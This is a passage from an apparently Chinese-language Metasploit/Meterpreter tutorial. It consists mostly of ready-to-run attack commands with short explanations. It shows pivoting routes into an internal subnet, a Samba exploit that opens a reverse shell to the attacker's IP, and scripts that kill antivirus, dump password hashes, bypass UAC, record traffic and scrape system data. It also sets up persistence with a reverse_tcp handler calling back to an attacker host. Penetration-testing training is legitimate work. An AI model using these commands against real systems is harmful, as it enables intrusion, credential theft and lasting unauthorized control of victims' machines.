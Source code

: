 ```
Local subnet: 192.168.33.0/255.255.255.0 
meterpreter> background #转入后台运行 
msf> route add 192.168.33.0 255.255.255.0 1 #本地添加路由信息 
msf> route print #查看添加的信息 
msf> use linux/samba/lsa_transnames_heap #准备向内网目标主机进攻 
set payload linux/x86/shell/reverse_tcp 
set LHOST 10.10.1.129 #此处为attacking 主机的外网IP 
set LPORT 8080 
set RHOST 192.168.33.132 #内网目标主机 
exploit 
```
也可以使用自动式添加路由模块： 
```
msf> load auto_add_route 
msf> exploit
```
#### 4、Meterpreter 脚本： 
使用run scriptname 方式执行 
* ①vnc 脚本,获取远程机器vnc 界面控制 
```
meterpreter> run vnc 
meterpreter> run screen_unlock 
```
* ②进程迁移 
当攻击成功后将连接进程从不稳定进程（如使用浏览器溢出漏洞exp 进行攻击时浏览器可能会被目标关闭）迁移至稳定进程(explorer.exe)，保持可连接。 
例子： 
```meterpreter> run post/windows/manage/migrate 
```
（在64 位win7 中migrate 需要管理员权限执行后门才能成功，而migrate 前后获取的 
权限是有差异的。） 
* ③关闭杀毒软件 
```
meterpreter> run killav （这个脚本要小心使用，可能导致目标机器蓝屏死机。） 
```
* ④获取系统密码hash 
```
meterpreter> run hashdump 
（64 位win7 下需要管理员权限执行后门且先getsystem，然后使用 
run post/windows/gather/hashdump 来dump hash 成功率更高。 
而且如果要使用shell 添加系统账户的话win7 下得先： 
run post/windows/escalate/bypassuac ，不然可能不会成功。） 
```
* ⑤获取系统流量数据 
```meterpreter> run packtrecorder –i 1 ```
* ⑥直捣黄龙 
可以干很多事情：获取密码，下载注册表，获取系统信息等 
```meterpreter> run scraper ```
* ⑦维持控制
当目标机器重启之后仍然可以控制 
``` meterpreter> run persistence –X –i 50 –p 443 –r 192.168.1.111 ```
 **-X 开机启动-i 连接超时时间–p 端口–rIP** 
**下次连接时：** 
```msf> use multi/handler 
set payload windows/meterpreter/reverse_tcp 
set LPOST 443 
set LHOST 192.168.1.111 
exploit
``` 
